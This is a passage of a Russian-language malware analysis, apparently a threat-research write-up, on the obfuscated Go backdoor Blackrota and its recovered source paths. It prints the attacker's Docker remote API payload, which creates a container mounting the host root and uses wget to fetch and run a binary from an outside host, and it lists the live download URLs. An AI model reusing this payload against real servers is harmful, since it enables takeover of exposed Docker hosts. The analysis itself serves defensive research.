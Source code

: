**Blackrota** использует **gobfuscate** для обфускации символов и типов, которые являются "life-door" для инструментов дизассемблирования. Символьная информация становится нечитаемой и невозможно понять смысл этой информации и ее тип, так же невозможно узнать, какие сторонние пакеты были импортированы в проект. Это делает процесс дизассемблирования более сложным.

Исторически, мы видели вредоносы написанные на Go, которое в лучшем случае были удалены символы во время компиляции, а в худшем - слегка запутывались, которые дизассемблировались без особого труда. Blackrota - это новый подход к обфускации и является самым обфусцированым вредоносом на Go в ELF формате, который мы нашли на сегодняшний день.

## Анализ

### Распространение Blackrota
Автор Blackrota использует несколько полезных нагрузок для несанкционированного использования удаленного API Docker. Типичная упрощенная полезная нагрузка выглядит следующим образом:

```
POST /v1.37/containers/create HTTP/1.1
Host: {target_host}:{target_port}
User-Agent: Docker-Client/19.03.7 (linux)
Content-Length: 1687
Content-Type: application/json

{"Env":[],"Cmd":["/bin/sh","-c","rm ./32 ; wget https://semantixpublic.s3.amazonaws.com/itau-poc-elastic/32;chmod 777 32; nohup ./32 \u003c/dev/null \u003e/dev/null 2\u003e\u00261 \u0026"],"Image":"alpine","Volumes":{},"WorkingDir":"","HostConfig":{"Binds":["/:/mnt"]}

```

При успешной загрузке 32/64 битная версия Blackrota может быть загружена со следующих URL адресов:

```
https://semantixpublic.s3.amazonaws.com/itau-poc-elastic/32
https://semantixpublic.s3.amazonaws.com/itau-poc-elastic/64
```

### Бэкдор Blackrota

Как описано выше, бэкдор **Blackrota** был написан на языке Go. С помощью нашего [go_parser](https://github.com/0xjiayu/go_parser) в IDAPro, мы можем сказать, что она была скомпилирована на **Go1.15.3**, с **GOROOT** path ```"/usr/local/Cellar/ go/1.15.3/libexec"```. В дополнение к этим двум фактам, проанализированные пути к исходным файлам, имена функций, глобальных переменных, типов данных и методов, привязанные к данным, запутаны случайными заменами символов и не читаемы.

Мы можем посмотреть пути к исходному файлу, участвующему в проекте (директория с исходным файлом назван случайной строкой)

```
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/ammopppfcdmmecpgbkkj/mmkgdoebocpnpabeofch/main.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/ammopppfcdmmecpgbkkj/mmkgdoebocpnpabeofch/ohbafagkhnajkninglhh/http.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/ammopppfcdmmecpgbkkj/mmkgdoebocpnpabeofch/ohbafagkhnajkninglhh/packet.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/ammopppfcdmmecpgbkkj/mmkgdoebocpnpabeofch/ohbafagkhnajkninglhh/commands.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/ammopppfcdmmecpgbkkj/mmkgdoebocpnpabeofch/idkinfdjhbmgpdcnhdaa/sysinfo_linux.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/ammopppfcdmmecpgbkkj/mmkgdoebocpnpabeofch/idkinfdjhbmgpdcnhdaa/meta.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/knbgkjnkjabhokjgieap/djcomehocodednjcklap/ocphjmehllnbcjicmflh/setting.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/knbgkjnkjabhokjgieap/djcomehocodednjcklap/ocphjmehllnbcjicmflh/req.go
/var/folders/m_/s3tbbryj529_gr23z27b769h0000gn/T/762993410/src/knbgkjnkjabhokjgieap/djcomehocodednjcklap/ocphjmehllnbcjicmflh/resp.go
```